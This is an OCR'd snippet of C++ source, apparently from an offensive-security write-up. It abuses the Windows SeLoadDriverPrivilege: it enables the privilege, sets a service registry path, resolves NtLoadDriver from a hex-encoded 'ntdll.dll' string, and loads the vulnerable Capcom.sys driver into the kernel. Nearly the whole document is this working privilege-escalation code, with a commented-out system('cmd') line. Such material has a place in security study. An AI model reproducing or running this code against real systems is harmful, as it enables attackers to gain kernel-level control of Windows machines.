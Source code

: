 ```c
	HANDLE hToken(NULL);
	OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system
		L"SeLoadDriverPrivilege",   // privilege to lookup 
		&luid))        // receives LUID of privilege
	{
		printf("LookupPrivilegeValue error: %un", GetLastError());
		return FALSE;
	}
	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	
	if (bEnablePrivilege) {
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	}
	
	// Enable the privilege or disable all privileges.
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		printf("AdjustTokenPrivileges error: %x", GetLastError());
		return FALSE;
	}

	//system("cmd");
	// below code for loading drivers is taken from https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/RDI/dll/NtLoadDriver.h
	std::cout << "[+] Set Registry Keys" << std::endl;
	NTSTATUS st1;
	UNICODE_STRING pPath;
	UNICODE_STRING pPathReg;
	PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
  PCWSTR pPathSourceReg = L"\\Registry\\User\\<User-SID>\\System\\CurrentControlSet\\MyService";
	const char NTDLL[] = { 0x6e, 0x74, 0x64, 0x6c, 0x6c, 0x2e, 0x64, 0x6c, 0x6c, 0x00 };
	HMODULE hObsolete = GetModuleHandleA(NTDLL);
	*(FARPROC *)&RtlInitUnicodeString = GetProcAddress(hObsolete, "RtlInitUnicodeString");
	*(FARPROC *)&NtLoadDriver = GetProcAddress(hObsolete, "NtLoadDriver");
	*(FARPROC *)&NtUnloadDriver = GetProcAddress(hObsolete, "NtUnloadDriver");

	RtlInitUnicodeString(&pPath, pPathSource);
	RtlInitUnicodeString(&pPathReg, pPathSourceReg);
	st1 = NtLoadDriver(&pPathReg);
	std::cout << "[+] value of st1: " << st1 << "\n";
	if (st1 == ERROR_SUCCESS) {
		std::cout << "[+] Driver Loaded as Kernel..\n";
		std::cout << "[+] Press [ENTER] to unload driver\n";
	}

	getchar();
	st1 = NtUnloadDriver(&pPathReg);
	if (st1 == ERROR_SUCCESS) {
		std::cout << "[+] Driver unloaded from Kernel..\n";
		std::cout << "[+] Press [ENTER] to exit\n";
		getchar();
	}

```